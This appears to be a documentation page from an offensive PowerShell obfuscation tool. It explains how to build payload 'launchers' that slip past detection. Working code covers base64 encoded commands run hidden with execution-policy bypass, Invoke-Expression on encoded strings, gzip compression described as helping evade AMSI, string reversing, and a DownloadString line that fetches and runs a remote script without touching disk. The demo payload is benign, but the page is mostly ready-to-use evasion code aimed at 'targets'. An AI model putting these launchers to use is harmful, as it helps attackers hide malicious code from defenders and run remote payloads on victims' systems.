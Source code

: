 # Obfuscation Launchers

Despite the focus of this tool being built around avoiding encapsulation-based launchers for your obfuscation endeavors, there is still an opportunity here for a knowledge transfer on how to build these launchers. You can still achieve various levels of success with these approaches, so long as you introduce obfuscation on these layers and the intended payload. Keep in mind that if your launcher gets flagged, then your intended payload won't matter, so you need an adequate amount of effort on both fronts.

There are many different techniques available, but these are just to get you an idea of some of the more common approaches. 

### Launchers

1. Base64 Encoded Commands
2. Base64 Expressions
3. GZip Compression
4. Payload / String Reversing
5. Download String

## Base64 Encoded Commands

PowerShell supports the ability to execute base64 encoded commands right from the command line with some extra goodies. It also allows you use partial parameter names so long as it's unambiguous, which is a common practice with this launcher. This is arguably the most popular approach and is also one of the easiest to discover when reviewing the logs.

Here is a breakdown of these parameters and what they do:

* -NoP - (-NoProfile) - Does not load the Windows PowerShell profile.)
* -NonI - (-NonInteractive) - Does not present an interactive prompt to the user.
* -W Hidden (-WindowStyle) - Sets the window style to Normal, Minimized, Maximized or Hidden.
* -Exec Bypass (-ExecutionPolicy) - Sets the default execution policy for the current session and saves it
    in the $env:PSExecutionPolicyPreference environment variable.
    This parameter does not change the Windows PowerShell execution policy
    that is set in the registry.
* -Enc (-EncodedCommand) - Accepts a base-64-encoded string version of a command. Use this parameter
    to submit commands to Windows PowerShell that require complex quotation
    marks or curly braces.
    
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/powershell

```powershell
# Generator
$command = 'Write-Output "Try Harder"'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64 = [Convert]::ToBase64String($bytes)

# Launcher
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc 'VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAFQAcgB5ACAASABhAHIAZABlAHIAIgAgAA=='
```

## Base64 Expressions

Where the previous scenario allows you to execute base64 encoded payloads from the command line, this approach allows you to execute base64 encoded strings within your script itself. 

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1

```powershell
# Generator
$command = 'Write-Output "Try Harder"'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64 = [Convert]::ToBase64String($bytes)

# Launcher
Invoke-Expression ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('VwByAGkAdABlAC0ATwB1AHQAcAB1AHQAIAAiAFQAcgB5ACAASABhAHIAZABlAHIAIgA=
'))))
```

## Gzip Compression

Compression can aid in both evading AMSI (sometimes) and makes it a little tricky to deconstruct. This will take a given payload and compress it into a gzip object then it'll get encoded so it can be stored within the payload. The sneakiness is that you will need to know how to properly decode it or else your payload will be look unintelligible. Keep in mind that not everyone is comfortable with PowerShell so it may not be that straight forward to extract the intended payload.

https://docs.microsoft.com/en-us/dotnet/api/system.io.compression.gzipstream?view=net-5.0

```powershell
# Generator
$command = 'Write-Output "Try Harder"'

## ByteArray
$byteArray = [System.Text.Encoding]::ASCII.GetBytes($command)

## GzipStream
[System.IO.Stream]$memoryStream = New-Object System.IO.MemoryStream
[System.IO.Stream]$gzipStream = New-Object System.IO.Compression.GzipStream $memoryStream, ([System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($ByteArray, 0, $ByteArray.Length)
$gzipStream.Close()
$memoryStream.Close()
[byte[]]$gzipStream = $memoryStream.ToArray()

## Stream Encoder
$encodedGzipStream = [System.Convert]::ToBase64String($gzipStream)

## Decoder Encoder
[System.String]$Decoder = '$decoded = [System.Convert]::FromBase64String("<Base64>");$ms = (New-Object System.IO.MemoryStream($decoded,0,$decoded.Length));iex(New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).readtoend()'
[System.String]$Decoder = $Decoder -replace "<Base64>", $encodedGzipStream

# Launcher
$decoded = [System.Convert]::FromBase64String("H4sIAAAAAAAEAAsvyixJ1fUvLSkoLVFQCimqVPBILEpJLVICAGWcSyMZAAAA")
$ms = (New-Object System.IO.MemoryStream($decoded,0,$decoded.Length))
Invoke-Expression (New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()   
```

## Payload / String Reversing

You can reverse virtually anything that can be split into a character array and stored. You'll see this more often with base64 encoded strings, however, you can also store reversed commands within a payload as well.

https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/everything-about-arrays?view=powershell-7.1

```powershell
# Generator
$Command = 'Write-Output "Try Harder"'.ToCharArray()
$Reversed = @()
($Command.length - 1)..0 | ForEach-Object {
    $Reversed += $Command[$_]
}
$Reversed = $Reversed -join ''

# Launcher
$Reversed = '"redraH yrT" tuptuO-etirW'
$Normal = @()
($Reversed.length - 1)..0 | ForEach-Object {
    $Normal += $Reversed[$_]
}
$Normal = $Normal -join ''
Invoke-Expression $($Normal -join '')
```

## Download String

This is an approach you can take when you are launching a payload that is hosted on a website, which helps keeps your payload off your targets disk. Depending on the web server, you may need to enable additional TLS protocols. This can be done by incorporating `[System.Net.ServicePointManager]` and `[System.Net.SecurityProtocolType]` as shown below prior to executing your `System.Net.WebClient` call.


```powershell
# List configured protocols
[Net.ServicePointManager]::SecurityProtocol

# Enable TLSv1.2
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

# Enable SSLv3.0
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::ssl3

# Enable TLSv1.0, TLSv1.1 and TLSv1.2
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12,[Net.SecurityProtocolType]::Tls11,[Net.SecurityProtocolType]::Tls

# Launcher
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')
```

